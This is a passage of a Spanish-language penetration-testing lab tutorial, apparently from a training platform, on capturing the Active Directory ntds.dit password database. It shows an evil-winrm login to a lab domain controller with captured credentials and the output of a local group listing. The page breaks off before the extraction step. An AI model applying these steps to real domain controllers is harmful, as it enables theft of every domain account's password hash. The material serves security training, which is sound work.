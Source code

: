 # **Capturando ntds.dit**

`NT Directory Services` (`NTDS`) es el servicio de directorio utilizado con AD para buscar y organizar los recursos de red. Recuerda que`NTDS.dit`el archivo se almacena en`%systemroot%/ntds`en los controladores de dominio en un[bosque](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model). El`.dit`representa[árbol de información de directorio](https://docs.oracle.com/cd/E19901-01/817-7607/dit.html). Este es el archivo de base de datos principal asociado con AD y almacena todos los nombres de usuario de dominio, hash de contraseña y otra información crítica de esquemas. Si este archivo se puede capturar, podríamos comprometer cada cuenta en el dominio similar a la técnica que cubrimos en este módulo`Attacking SAM`sección. A medida que practicamos esta técnica, considere la importancia de proteger la EA y la lluvia de ideas sobre algunas maneras de evitar que ocurra este ataque.

### **Conectarse a un DC con Evil-Winrm**

Podemos conectarnos a un DC objetivo utilizando las credenciales que capturamos.

Atacando activo directorio y ntds.dit

```
xnoxos@htb[/htb]$ evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

Evil-WinRM se conecta a un objetivo que utiliza el servicio de administración remota de Windows combinado con el protocolo de remota PowerShell para establecer una sesión de PowerShell con el objetivo.

### **Verificar la membresía del grupo local**

Una vez conectado, podemos verificar para ver qué privilegios`bwilliamson`tiene. Podemos comenzar a mirar la membresía del grupo local usando el comando:

Atacando activo directorio y ntds.dit

```
*Evil-WinRM* PS C:\> net localgroup

Aliases for \\DC01

-------------------------------------------------------------------------------
*Access Control Assistance Operators
*Account Operators
*Administrators
*Allowed RODC Password Replication Group
*Backup Operators
*Cert Publishers
*Certificate Service DCOM Access
*Cryptographic Operators
*Denied RODC Password Replication Group
*Distributed COM Users
*DnsAdmins
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Incoming Forest Trust Builders
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Pre-Windows 2000 Compatible Access
*Print Operators
*RAS and IAS Servers
*RDS Endpoint Servers
*RDS Management Servers
*RDS Remote Access Servers
*Remote Desktop Users
```